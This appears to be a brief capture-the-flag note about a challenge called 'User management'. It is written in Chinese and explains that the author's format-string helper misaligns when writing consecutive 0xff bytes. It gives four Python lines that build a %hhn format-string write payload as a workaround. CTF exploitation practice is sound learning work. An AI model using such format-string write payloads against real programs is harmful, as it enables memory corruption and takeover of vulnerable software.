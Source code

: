 ```yaml
---
date: 2024-07-29 06:49
challenge: User management
tags:
  - strfmt
---
```


这道题让我发现了我的 strfmt 写得有问题，在连续布置 0xff 时会出现错位的情况，暂时先这么用吧：

```python
payload += fmt.generate_hhn_payload(0xC8 - 8 * 0, 0xFF)
payload += b"a" + fmt.generate_hhn_payload(0xC8 - 8 * 1, 0xFF - 1)
payload += b"a" + fmt.generate_hhn_payload(0xC8 - 8 * 2, 0xFF - 2)
payload += b"a" + fmt.generate_hhn_payload(0xC8 - 8 * 3, 0xFF - 3)
```
